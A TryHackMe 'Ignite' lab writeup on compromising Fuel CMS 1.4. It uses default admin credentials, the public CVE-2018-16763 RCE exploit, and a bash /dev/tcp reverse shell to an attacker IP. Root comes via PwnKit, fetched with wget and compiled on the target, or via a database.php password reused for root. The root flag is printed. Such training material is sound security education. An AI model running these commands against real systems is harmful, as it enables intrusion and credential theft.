# TryHackMe — Ignite: Writeup

**Difficulty:** Easy 

**Category:** Linux Privilege Escalation 

**Author:** Poula Atef | 0xD33B

---

## 1. Reconnaissance

An initial Nmap scan was run to identify open ports and running services:

```bash
nmap 10.66.133.75 -sS -sCV -T4 -Pn
```



Key findings:

- Only port 80 (HTTP) is open.
- The web server is running **Apache 2.4.18** on Ubuntu.
- The page title reveals the application: **Fuel CMS**.
- `robots.txt` discloses a disallowed path, `/fuel/`, which is the CMS's admin panel route — a useful lead for later.

---

## 2. Web Enumeration

Browsing to the target confirmed the CMS and its version directly on the landing page:



> **Welcome to Fuel CMS — Version 1.4**

The page also included the CMS's own setup/installation instructions, which incidentally leaked useful operational details for an attacker reviewing the install guide. Step 2 of the install walkthrough points directly at where the database credentials are stored:



This confirms the DB configuration lives at `fuel/application/config/database.php` — relevant again later for a second privilege-escalation path.

Further down the same install guide, the default admin credentials are documented outright:


- Admin panel location: `http://<target>/fuel/`
- **Default credentials: `admin` / `admin`**, with only a note that they *should* be changed after login.

Navigating to `http://10.66.133.75/fuel/dashboard` confirmed the admin panel was reachable with these credentials, giving visibility into the site's structure:



---

## 3. Finding an Exploit

With the CMS name and version confirmed, `searchsploit` was used to look for known vulnerabilities:

```bash
searchsploit fuel 1.4
```



Several RCE and SQL injection entries were returned. The first RCE (`47138.py`) was selected and copied locally:

```bash
searchsploit -m linux/webapps/47138.py
```



This exploit corresponds to **CVE-2018-16763**, a PHP code injection vulnerability in the `filter` parameter of Fuel CMS's `/fuel/pages/select/` endpoint. The application passes user-controlled input into a dynamically evaluated PHP function without proper sanitization, allowing arbitrary PHP (and ultimately OS command) execution.

---

## 4. Exploitation — Remote Code Execution

The exploit script was run directly against the target, giving an interactive `cmd:` prompt that sends each command through the injected PHP `system()` call:

```bash
python3 47138.py
```

A Bash reverse shell one-liner was then sent through the exploit to upgrade blind command execution into a full connection:

```
cmd: bash -c "bash -i >& /dev/tcp/192.168.192.48/4444 0>&1"
```



> **Note:** double quotes were required for the payload rather than single quotes, since the exploit's PHP injection template already wraps the payload in single quotes — using single quotes in the shell command would prematurely close the PHP string and break the injected syntax.

A listener was prepared beforehand on the attacking machine using `rlwrap` (for arrow-key/history support), and the shell was caught:

```bash
rlwrap nc -lvnp 4444
```



A low-privileged, unstable shell as `www-data` was now established on the target.

---

## 5. Privilege Escalation — Path A: PwnKit (CVE-2021-4034)

### 5.1 Enumerating SUID binaries

A standard SUID enumeration command was run to look for privilege escalation opportunities:

```bash
find / -type f -perm -4000 2>/dev/null
```



Most entries in this list are standard SUID binaries present by default on any Ubuntu system (`su`, `mount`, `passwd`, `ping`, etc.) and are not inherently exploitable. The binary that stood out was `/usr/bin/pkexec`, part of **PolicyKit**, which has a well-known local privilege escalation vulnerability.

### 5.2 Confirming the vulnerable version

```bash
pkexec --version
```



Version 0.105 is vulnerable to **CVE-2021-4034 ("PwnKit")**, a memory-corruption flaw in `pkexec` that allows any local, unprivileged user to escalate to root.

### 5.3 Exploiting PwnKit

The public PwnKit PoC source (`cve-2021-4034-poc.c`) was transferred from the attacker's machine to the target using a simple Python HTTP server and `wget`, then **compiled locally on the target** to avoid a glibc version mismatch between Kali and the target's older Ubuntu base:

```bash
# Attacker
python3 -m http.server 8000

# Target
wget http://192.168.192.48:8000/cve-2021-4034-poc.c
gcc cve-2021-4034-poc.c -o poll
```



Running the compiled binary granted an immediate root shell, which was upgraded to a proper TTY and used to retrieve the flag:

```bash
./poll
python3 -c 'import pty; pty.spawn("/bin/bash")'
cd /root
cat root.txt
```



```
whoami
root

root.txt
b9bbcb33e11b80be759c4e844862482d
```

---

## 6. Privilege Escalation — Path B: Credential Reuse via Config File

A second, independent route to root was also identified by reviewing the CMS's own configuration files — a classic target once file-read or command execution is obtained on a web application host.

```bash
cd /var/www/html/fuel/application/config
cat database.php
```



This is the same file referenced earlier in the installation guide (Section 2). It stores the database credentials in plaintext, including a `password` value set by the system administrator during setup.

The password found in `database.php` was reused as the **root account's password**, allowing direct privilege escalation via:

```bash
su root
```

This is a textbook example of **credential reuse** — a secret set for one purpose (database access) was reused for another (the root system account), turning a simple configuration file disclosure into full system compromise, independent of the PwnKit kernel/userland vulnerability.

---

## 7. Summary

| Stage                    | Technique                                                              | Reference        |
| ------------------------ | ---------------------------------------------------------------------- | ---------------- |
| Recon                    | Nmap service scan                                                      | —                |
| Initial Access           | Fuel CMS 1.4.1 unauthenticated RCE via `filter` parameter              | CVE-2018-16763   |
| Shell stabilization      | Bash reverse shell via injected `system()` call                        | —                |
| Privilege Escalation (A) | PwnKit — `pkexec` memory corruption                                    | CVE-2021-4034    |
| Privilege Escalation (B) | Credential reuse — DB password found in `database.php` reused for root | Misconfiguration |

**Root flag:** `b9bbcb33e11b80be759c4e844862482d`

### Key Takeaways

- Outdated CMS versions with public RCE exploits remain one of the most common initial access vectors.
- Default credentials (`admin`/`admin`) documented in a vendor's own setup guide are a real-world risk when left unchanged.
- SUID binary enumeration is not about memorizing a blacklist — binaries that are *expected* to be SUID (`passwd`, `su`, `mount`, etc.) are not inherently dangerous; the risk comes from **outdated versions with known CVEs** (like `pkexec` 0.105 here) or binaries that have **no legitimate reason** to carry the SUID bit at all.
- Configuration files (`database.php`) are high-value targets once any level of file read or code execution is achieved, especially when credentials are reused across services.
